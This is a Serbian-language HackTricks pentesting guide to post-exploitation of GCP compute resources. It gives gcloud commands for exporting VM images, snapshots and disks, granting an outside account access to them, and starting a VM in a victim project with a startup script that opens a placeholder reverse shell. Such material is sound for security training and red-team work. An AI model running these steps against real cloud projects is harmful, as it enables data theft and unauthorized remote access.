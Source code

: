 # GCP - Posteksploatacija računara

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Računar

Za više informacija o računaru i VPC (Networking) proverite:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Izvoz i inspekcija slika lokalno

Ovo bi omogućilo napadaču da **pristupi podacima koji se nalaze unutar već postojećih slika** ili **kreira nove slike pokrenutih VM-ova** i pristupi njihovim podacima bez pristupa pokrenutom VM-u.

Moguće je izvoziti sliku VM-a u bucket, a zatim je preuzeti i montirati lokalno pomoću komande:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Pre izvođenja ove akcije napadaču može biti potrebna privilegija nad skladišnim kantom i sigurno **privilegija nad cloudbuild** jer je to **servis** koji će biti tražen da izvrši izvoz. 
Osim toga, da bi ovo funkcionisalo, codebuild SA i compute SA moraju imati privilegovane dozvole. 
Cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` treba:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

A SA `<project-id>-compute@developer.gserviceaccount.com` treba:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Izvoz i inspekcija snimaka i diskova lokalno

Nije moguće direktno izvoziti snimke i diskove, ali je moguće **pretvoriti snimak u disk, disk u sliku** i prema **prethodnom odeljku**, izvesti tu sliku radi lokalne inspekcije.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekcija slike kreiranjem virtuelne mašine

Sa ciljem pristupa **podacima koji se čuvaju u slici** ili unutar **pokrenute virtuelne mašine** odakle je napadač **kreirao sliku**, moguće je omogućiti pristup spoljnom nalogu preko slike:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
a zatim kreirajte novu VM iz toga:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ako niste mogli dati spoljni pristup svom nalogu preko slike, možete pokrenuti virtuelnu mašinu koristeći tu sliku u žrtvinom projektu i **omogućiti izvršavanje obrnutog školjka** putem metapodataka kako biste pristupili slici dodavanjem parametra:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspekcija snimka/diska povezivanjem na VM

S ciljem pristupa **podacima koji se čuvaju na disku ili snimku, možete pretvoriti snimak u disk, disk u sliku i pratiti prethodne korake.**

Ili možete **dodeliti spoljnom nalogu pristup** disku (ako je početna tačka snimak, dodelite pristup snimku ili kreirajte disk iz njega):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Povežite disk** sa instancom:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montirajte disk unutar virtuelne mašine:

1. **SSH u virtuelnu mašinu**:

```sh
gcloud compute ssh [IME_INSTANSE] --zone [ZONA]
```
2. **Identifikujte disk**: Jednom unutar virtuelne mašine, identifikujte novi disk listanjem disk uređaja. Obično ga možete pronaći kao `/dev/sdb`, `/dev/sdc`, itd.
3. **Formatirajte i montirajte disk** (ako je novi ili sirovi disk):
*   Kreirajte tačku montiranja:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montirajte disk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Ako **ne možete dati pristup spoljnom projektu** snimku ili disku, možda ćete morati izvršiti ove radnje unutar instance u istom projektu kao snimak/disk.
